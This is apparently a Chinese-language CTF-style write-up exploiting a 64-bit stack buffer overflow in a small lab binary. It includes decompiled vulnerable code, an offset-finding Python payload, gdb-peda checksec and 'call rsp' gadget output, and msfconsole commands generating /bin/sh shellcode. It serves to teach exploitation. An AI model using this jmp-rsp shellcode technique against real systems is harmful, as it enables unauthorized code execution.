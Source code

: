 经过IDA逆向分析可知是一个普通的缓冲区栈溢出漏洞

```
 int __cdecl main(int argc, const char **argv, const char **envp)
 {
   __int64 v3; // rdx@1
   char v5; // [sp+0h] [bp-1020h]@1
   char v6; // [sp+1000h] [bp-20h]@1
   int v7; // [sp+101Ch] [bp-4h]@1

   setbuf(stdin, 0LL, envp);
   setbuf(stdout, 0LL, v3);
   puts("Easyest stack overflow!");
   v7 = read(0LL, &v5, 4096LL);
   return memcpy(&v6, &v5, v7);
 }
```

 $ cat /proc/sys/kernel/randomize_va_space # 显示为2，本机开启了ALSR

这时候使用硬编码地址的话,就无法成功利用漏洞.在这种情况下就可以使用jmp rsp等跳转地址来覆盖返回地址简介跳入shellcode。当函数执行完,弹出了返回地址,rsp往往指向(返回地址+8),我们将shellcode放在此处就可以让程序执行,注意跳板不一定是rsp

经过测试如下payload可以触发，并定位到覆盖地址位置，注意是64位程序，所以返回地址是8个字节：

```
python -c "print 'A' * 40 + 'BBBBBBBB' + 'C' * 100" 
```

用gdb的peda插件checksec功能来检测目标程序的防护措施以及jmpcall命令搜索jmp rsp的地址：

```
 gdb-peda$ checksec
 CANARY : disabled
 FORTIFY : disabled
 NX : disabled
 PIE : disabled
 RELRO : Partial
 gdb-peda$ jmpcall rsp
 0x43687d : call rsp
 0x43688b : call rsp
 0x43e9d4 : call rsp
 0x441b85 : call rsp
 0x441d8a : call rsp
```

从checksec结果看程序本身没有任何防护措施，跳转地址就选第一个0x43687d : call rsp即可，jmp rsp也是可以的。

看下返回之后，rsp也刚好指向返回地址后面的内存，刚好可以放上shellcode

```
 RSP: 0x7fffffffdc80 ('C' <repeats 17 times>, "\n\377\377\377\177")
 RIP: 0x7fffffffdc80 ('C' <repeats 17 times>, "\n\377\377\377\177")
```

另外就是shellcode，可以使用msf来生成。

```
 msf> show payload   
 msf> use linux/x64/exec
 msf (linux/x64/exec)> set cmd /bin/sh
 msf (linux/x64/exec)> generate -t py -b "/x00"
```
